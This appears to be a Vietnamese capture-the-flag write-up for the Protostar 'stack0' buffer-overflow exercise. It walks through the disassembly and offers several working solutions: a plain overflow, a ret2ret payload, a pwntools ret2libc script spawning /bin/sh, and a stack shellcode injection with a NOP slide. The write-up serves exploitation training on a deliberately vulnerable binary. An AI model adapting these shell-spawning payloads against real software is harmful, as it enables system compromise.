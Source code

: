 # Stack0

Đầu tiên ta chạy thử chương trình, chương trình yêu cầu nhập input. 

![run](run.png)

`try again?`
Vậy cùng xem thử qua hàm main.

![main](disass.png)

t thấy chương trình dùng gets để nhập input vào `[esp+0x1c]`. Sau đó so sánh `[esp+0x5c]` với 0, nếu = 0 in ra `0x8048529 (try again?)` nếu ko thì in ra `0x8048500(you have changed the 'modified' variable)`. Vì ban đầu `[esp+0x5c]` được gán giá trị = 0 nên mục đích của chall này là thay đổi giá trị cua `[esp+0x5c]` để in ra *you have changed the 'modified' variable*. Ta tính được size của `[esp+0x1c]` 0x5c - 0x1c = 64 byte. vậy cần nhập một chuỗi > 64 byte để ghi đè giá trị của `[esp+0x5c]`.

## Solution

### Buffer Overflow

`python -c 'print "a"*65 | ./stack0`

### Ret2ret

Ta có thể overflow sang EIP để jump về `0x08048419`. Mình dùng Gdb để có đc địa chỉ của ESP,EBP.

![ebp-esp](ebp-esp.png)

`padding = [ebp]-[esp+0x1c] + ebp(4byte) = 80`
payload: `python -c 'print "a"*80 + "\x19\x84\x04\x08"' | ./stack0`
![ret2ret](ret2ret.png)

## Spawn Shell

### return về hàm system()

thay vì để jump về `0x08048419` ta có thể return về hàm system() để spawn shell.
![shell](shell.png)

```python
#!/usr/bin/python3
from pwn import *
elf = context.binary = ELF('./stack0')
rop = ROP(elf)

#system() address
system_addr = 0xf7e11790
info('system_addr: ' + hex(system_addr))
#/bin/sh address
sh_addr = 0xf7dd0000+ 0x18e363 #base address + offset
info('sh_addr: ' + hex(sh_addr))
padding = 80*b'b' #padding tính từ phần trên
payload = padding + p32(system_addr) + p32(0xdeadbeef) + p32(sh_addr)

p = process('./stack0')
p.sendline(payload)
p.interactive()
```

![shell2](shell2.png)

#### cách2

Check qua phân vùng stack, mình thấy nó có quyền excute. Nên mình sẽ inject shellcode vào stack.
```python
#!/usr/bin/python3
from pwn import *
elf = context.binary = ELF('./stack0')
rop = ROP(elf)

padding = b'a'*80
eip = p32(0xffffd250+100) # esp addr + offset nop_slide

nop_slide = b"\x90"*400

shellcode = b"jhh\x2f\x2f\x2fsh\x2fbin\x89\xe3jph\x01\x01\x01\x01\x814\x24ri\x01,1\xc9Qj\x07Y\x01\xe1Qj\x08Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"

payload = padding + eip + nop_slide + shellcode

p = process('./stack0')
p.sendline(payload)
p.interactive()
```

![shell3](shell3.png)